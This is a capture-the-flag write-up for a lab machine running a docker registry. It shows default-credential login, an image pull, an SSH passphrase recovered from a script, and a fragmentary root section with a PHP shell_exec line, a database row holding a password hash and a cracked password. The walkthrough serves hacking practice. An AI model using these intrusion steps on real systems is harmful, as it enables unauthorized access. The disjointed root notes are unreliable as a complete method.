 Running some enumeration on the box gives us port `22`, `80` and `443` open and running. 

The first interesting thing to notice is the `commonName` in the self-signed SSL certificate: `docker.registry.htb`. Commonly boxes will have dynamic host redirection. 

Therefore, due to the lack of DNS with HTB adding this to the `/etc/hosts` file lets us resolve this address to the box IP.

This then gives us a completely blank page?

Running `gobuster` on all endpoint gives us a `/v2` endpoint!

With some research it shows this endpoint as a `docker hub`. With a little trial and error it shows default creds:
```
admin:admin
```

A `docker` hub is designed to be able to host docker images that may be required locally.

In order to look at the available repos we can navigate to the `_catalog` directory.
```
http://docker.registry.htb/v2/_catalog
```

This shows us an image called `bolt-image`.

In order to download this image locally we need do a little setup. Because `docker` will get mad about a self-signed certificate we need to add the url to `insecure-registries`. Below is the file and contents:

Filepath:
```
/etc/docker/daemon.json
```

Contents:
```
{
  "insecure-registries" : ["docker.registry.htb"]
}
```

This will now let us pull the image like so:
```
sudo docker pull docker.registry.htb/bolt-image
```

We can then launch a shell on the container like so:
```
sudo docker run -it docker.registry.htb/bolt-image /bin/bash
```

This lets us look around the container file system.

Looking around shows us `.ssh` keys in the the `/root` directory. They are for the user `bolt`, but are password protected. A quick brute force gave no results, therefore, another method is needed.

Looking in the user directory shows us a `.vimprofile` file. This contains reference to a file `/etc/profile.d/01-ssh.sh`. This file contains:

```
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This gives us the password for the `ssh` key:

```
GkOcz221Ftb3ugog
```

This lets us log on and grab the `user.txt`!

# ROOT

```php
<?php 
    shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
?>
```


1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||0||["root","everyone"]

admin:strawberry